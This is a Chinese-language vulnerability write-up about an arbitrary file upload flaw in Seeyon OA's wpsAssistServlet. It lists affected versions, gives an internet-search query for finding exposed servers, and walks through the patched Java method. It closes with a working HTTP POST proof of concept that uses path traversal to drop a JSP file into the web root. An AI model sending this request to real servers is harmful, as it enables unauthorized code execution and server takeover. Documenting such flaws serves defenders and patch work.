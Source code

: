# 致远OA wpsAssistServlet 任意文件上传漏洞

## 漏洞描述

致远OA wpsAssistServlet接口存在任意文件上传漏洞，攻击者通过漏洞可以发送特定的请求包上传恶意文件，获取服务器权限

## 漏洞影响

<a-checkbox checked>致远OA A6、A8、A8N (V8.0SP2，V8.1，V8.1SP1)</a-checkbox></br>

<a-checkbox checked>致远OA G6、G6N (V8.1、V8.1SP1)</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="致远互联-OA" && title="V8.0SP2"</a-checkbox></br>

## 漏洞复现

产品主页

![img](/assets/PeiQi-Wiki/img/1658806205627-07ce1bd0-adf1-4aae-9f3a-a6885bf8bfd7.png)

下载补丁220706-S004 ，对比修改的文件

![img](/assets/PeiQi-Wiki/img/1658806584119-32f25f71-5351-4781-ab5b-7435032ec7ec.png)

主要修改的是 `com.seeyon.ctp.common.wpsassist.manager.WpsAssistManagerImpl.oaSaveFile` 这个方法

```php
private Map<String, Object> oaSaveFile(HttpServletRequest request, Map<String, Object> param) throws Exception {
        Map<String, Object> result = Maps.newHashMap();
        result.put(BusinessKey.OfficeTransResultFlag.getCode(), (Object)null);
        Long fileId = MapUtils.getLong(param, "fileId");
        log.info("wpsAssist SaveFile start!fileId=" + fileId);
        String newPdfFileId = MapUtils.getString(param, "newPdfFileId");
        if (Strings.isNotBlank(newPdfFileId)) {
            fileId = Long.valueOf(newPdfFileId);
        }

        String realFileType = MapUtils.getString(param, "realFileType");
        String tempFileIdPathSuffix = SystemEnvironment.getSystemTempFolder() + File.separator + fileId + realFileType;
        Long count = this.saveFileToPath(request, tempFileIdPathSuffix);
        result.put(BusinessKey.FileSize.getCode(), count);
        result.putAll(this.createOfficeTransCacheFile(fileId, tempFileIdPathSuffix, MapUtils.getString(param, "canTransFileType")));
        param.put(BusinessKey.OfficeTransResultFlag.getCode(), result.get(BusinessKey.OfficeTransResultFlag.getCode()));
        this.copyToUploadAndTrans(param);
        return result;
    }
```

向上追溯调用的 oaSaveFile方法的代码

![img](/assets/PeiQi-Wiki/img/1658806789623-07df56ba-fe62-4c0d-9374-11cfc3077bdf.png)

![img](/assets/PeiQi-Wiki/img/1658807010120-47006179-52db-4d27-8e18-fe00dbc8482a.png)

在 `com.seeyon.ctp.common.wpsassist.WpsAssistServlet.doPost` 中，flag参数为save时，可以调用文件上传接口

![img](/assets/PeiQi-Wiki/img/1658809800167-1f074e5b-88b2-468c-b29f-794f8d5ddfaa.png)

`C://Seeyon/A6/base/temporary` 为默认上传的位置，但 `realFileType, fileId` 参数可控，可以通过 ../ 遍历上传到任意目录下，验证POC

```php
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/debugggg.jsp&fileId=2 HTTP/1.1
Host: 
Content-Length: 349
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="upload"; filename="123.xls"
Content-Type: application/vnd.ms-excel

<% out.println("seeyon_vuln");%>
--59229605f98b8cf290a7b8908b34616b--
```



![img](/assets/PeiQi-Wiki/img/1658810152744-1a171b0d-25f0-4c99-9ff4-4202c66d40b3.png)

![img](/assets/PeiQi-Wiki/img/1658810231876-43f625d6-dc8f-421d-96ae-f753722bf2c5.png)